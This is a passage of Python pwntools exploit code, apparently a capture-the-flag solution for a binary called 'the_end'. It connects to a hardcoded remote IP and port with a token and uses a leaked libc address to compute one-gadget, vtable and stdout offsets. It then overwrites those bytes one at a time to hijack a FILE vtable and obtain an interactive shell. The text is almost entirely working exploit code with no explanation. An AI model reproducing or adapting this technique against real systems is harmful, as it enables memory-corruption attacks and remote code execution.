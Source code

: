 ```
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()

    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    leak    = lambda address, count=0   :ctx.leak(address, count)

    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    def to_write(addr,val):
        s(p64(addr))
        sleep(0.1)
        s(p8(val))

    debugg = 0
    logg = 0

    ctx.binary = './the_end'
    #ctx.remote_libc = '/vm_share/libc64.so'  # /glibc/2.24/lib/libc-2.24.so
    #ctx.debug_remote_libc = True # this is by default
    ctx.remote = ('150.109.46.159', 20002)

    #ctx.bases.libc
    #ctx.symbols = {'sym1':0x1234, 'sym2':0x5678}
    #ctx.breakpoints = [0x964]
    #ctx.debug()

    if debugg:
        rs()
    else:
        rs(method = 'remote')
        sla('token:','DN2WQ9iOvvAGyRxDC4KweQ2L9hAlhr6j')

    if logg:
        context.log_level = 'debug'

    ru('gift ')
    libc_base = int(ru(','),16) - 0xcc230
    log.success("libc_base = %s"%hex(libc_base))

    tls = libc_base + 0x5d5700
    log.success("tls = %s"%hex(tls))

    one = libc_base + 0xf02a4
    log.success("one = %s"%hex(one))
    vtable = libc_base + 0x3c56f8
    log.success("vtable = %s"%hex(vtable))
    io_stdout = libc_base + 0x3c5620
    log.success("io_stdout = %s"%hex(io_stdout))
    target = libc_base + 0x3c44e0 + 0x18
    log.success("target = %s"%hex(target))

    to_write(target,one&0xff)
    to_write(target+1,(one>>8)&0xff)
    to_write(target+2,(one>>16)&0xff)
    to_write(vtable+1,(target>>8)&0xff)
    to_write(io_stdout+0x28,0xff)

    irt()
```
